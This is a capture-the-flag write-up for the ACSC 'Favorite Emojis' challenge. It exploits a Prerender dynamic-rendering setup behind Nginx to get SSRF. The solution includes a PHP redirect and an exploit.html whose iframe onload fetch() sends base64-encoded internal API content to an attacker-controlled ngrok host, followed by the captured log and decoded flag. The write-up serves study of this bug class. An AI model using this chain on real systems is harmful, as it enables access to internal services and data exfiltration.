 ```yaml
---
description: Prerender dynamic rendering leads to SSRF
---
```


# Favorite Emojis

## Description

🎈





                                🏃

`http://favorite-emojis.chal.acsc.asia:5000`

{% file src="../../.gitbook/assets/favorite-emojis.tar.gz\_88c58c7d867bcad99c40a2013cc77a58.gz" caption="Challenge Files" %}

## Solution

The server uses something called dynamic rendering, which renders JavaScript on the server-side before serving web crawlers. This is meant to improve SEO.

If we look at the Nginx configuration, we can see that as long as we set our HTTP `User-Agent` header to one of the web crawlers, e.g.`googlebot`, the request is re-written and forwarded to the pre-renderer at `http://renderer:3000`.

```text
location / {
    try_files $uri @prerender;
}

...

location @prerender {
    proxy_set_header X-Prerender-Token YOUR_TOKEN;
    
    set $prerender 0;
    if ($http_user_agent ~* "googlebot|bingbot|yandex|baiduspider|twitterbot|facebookexternalhit|rogerbot|linkedinbot|embedly|quora link preview|showyoubot|outbrain|pinterest\/0\.|pinterestbot|slackbot|vkShare|W3C_Validator|whatsapp") {
        set $prerender 1;
    }
    if ($args ~ "_escaped_fragment_") {
        set $prerender 1;
    }
    if ($http_user_agent ~ "Prerender") {
        set $prerender 0;
    }
    if ($uri ~* "\.(js|css|xml|less|png|jpg|jpeg|gif|pdf|doc|txt|ico|rss|zip|mp3|rar|exe|wmv|doc|avi|ppt|mpg|mpeg|tif|wav|mov|psd|ai|xls|mp4|m4a|swf|dat|dmg|iso|flv|m4v|torrent|ttf|woff|svg|eot)") {
        set $prerender 0;
    }

    if ($prerender = 1) {
        rewrite .* /$scheme://$host$request_uri? break;
        proxy_pass http://renderer:3000;
    }
    if ($prerender = 0) {
        rewrite .* /index.html break;
    }
}
```

The goal is to get to `http://api:8000/`.

```python
@app.route("/", methods=["GET"])
def root():
    return FLAG
```

If the API server was hosted on port 80 instead, there would be no need for any exploitation - the need for subsequent exploitation stems from the fact that `$host` will strip the port number in the HTTP `Host` header, preventing us from accessing the API server at port 8000 directly.

I came across [this post](https://r2c.dev/blog/2020/exploiting-dynamic-rendering-engines-to-take-control-of-web-apps/) which gave me the inspiration for the exploit. We know that the server uses [Prerender](https://github.com/tvanro/prerender-alpine) to handle these requests. Since Prerender uses Chrome to render JavaScript, we can perform XSS within the renderer.

Set the host header so that the renderer visits our attacker-controlled site. From there, we can redirect the browser using the `Location` header.

`redirect.php`:

```php
<?php 
    header("Location: http://localhost:3000/render?url=http://localhost:3000/render?url=http://0db7-115-66-195-39.ngrok.io/exploit.html");
?>
```

From the user's perspective, the Nginx server will return the 302 redirect, instead of the contents of the redirected site. However, the renderer's browser will still follow the redirect. It will then be redirected to our second exploit page:

`exploit.html`:

```markup
<html>
    <body>
        <iframe id="iframe" src="http://localhost:3000/render?url=http://api:8000/" onload='fetch("http://0db7-115-66-195-39.ngrok.io/?"+btoa(document.getElementById("iframe").contentWindow.document.documentElement.innerHTML));'></iframe>
    </body>
</html>
```

Notice that the browser is currently on `http://localhost:3000`, viewing the pre-rendered `exploit.html`. Since both the current site and the iframe's source are `http://localhost:3000`, this bypasses SOP and allows us to access the iframe's contents through the `onload` handler.

This gives us the `http://api:8000/` contents:

```text
[Sat Sep 18 19:36:42 2021] 127.0.0.1:49207 [404]: /?PGhlYWQ+PC9oZWFkPjxib2R5PkFDU0N7c2hhcmtzX2FyZV9hbHdheXNfaHVuZ3J5fTwvYm9keT4= - No such file or directory
```

Which decodes to

```markup
<head></head><body>ACSC{sharks_are_always_hungry}</body>
```

